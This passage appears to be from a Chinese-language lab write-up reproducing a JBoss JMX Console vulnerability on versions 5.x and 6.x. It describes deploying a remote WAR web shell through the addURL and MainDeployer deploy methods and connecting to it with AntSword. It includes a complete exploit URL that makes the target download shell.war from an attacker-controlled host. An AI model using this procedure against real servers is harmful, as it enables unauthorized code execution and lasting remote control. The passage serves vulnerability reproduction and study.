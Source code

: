 kali开启远程服务，为了下面部署war包

![](https://gitee.com/fuli009/images/raw/master/public/20210830201020.png)image-20210823115736527

进入JXM Console之后，找到jboss.deployment

![](https://gitee.com/fuli009/images/raw/master/public/20210830201021.png)image-20210823111537878

点进去找到void addURL(),输入远程war包链接之后，点击invoke

![]()image-20210823121654413

回到这个页面上方，点击Apply Changes

![](https://gitee.com/fuli009/images/raw/master/public/20210830201022.png)image-20210823121833925

返回到JMX Console页面，等待一会，刷新后可以看见部署成功

![](https://gitee.com/fuli009/images/raw/master/public/20210830201023.png)image-20210823122437357

蚁剑成功连接

![](https://gitee.com/fuli009/images/raw/master/public/20210830201024.png)image-20210823122620639

Jboss6.x的复现：

步骤差不多一样

![](https://gitee.com/fuli009/images/raw/master/public/20210830201025.png)image-20210823122818531![]()

在该页面找到methodindex为17or19的deploy，填写远程war包的地址进行远程部署

![](https://gitee.com/fuli009/images/raw/master/public/20210830201026.png)image-20210823130424900![](https://gitee.com/fuli009/images/raw/master/public/20210830201027.png)image-20210823130758283![](https://gitee.com/fuli009/images/raw/master/public/20210830201028.png)image-20210823130823043![](https://gitee.com/fuli009/images/raw/master/public/20210830201029.png)image-20210823131048341

或者是直接运行下面的语句部署即可

    
    
    http://192.168.10.154:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.syst  
    em:service=MainDeployer&methodIndex=17&arg0=http://192.168.10.65/shell.war  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201030.png)image-20210823131823568

蚁剑成功连接

![]()image-20210823131009567

部署的路径为如下，可以看见自动部署出war中的文件。

    
    
    C:\jboss-6.1.0.Final\server\default\work\jboss.web\localhost  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201031.png)image-20210823131904293

#### 安全防护
